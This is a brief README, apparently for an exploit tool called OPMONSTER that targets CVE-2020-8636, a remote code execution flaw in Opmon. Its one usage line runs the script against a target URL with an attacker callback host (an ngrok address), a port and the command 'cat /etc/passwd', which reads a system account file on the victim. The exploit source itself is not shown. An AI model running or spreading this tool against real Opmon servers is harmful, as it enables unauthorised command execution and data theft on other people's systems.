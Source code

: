 # CVE-2020-8636
### OPMONSTER by @phor3nsic

<img src="img/opmonster.png">
  
  
 ```
 python3 opmonster.py https://vulnhost.com http://myhost.ngrok.io 1337 "cat /etc/passwd"
 ```

### Remote code execution in Opmon
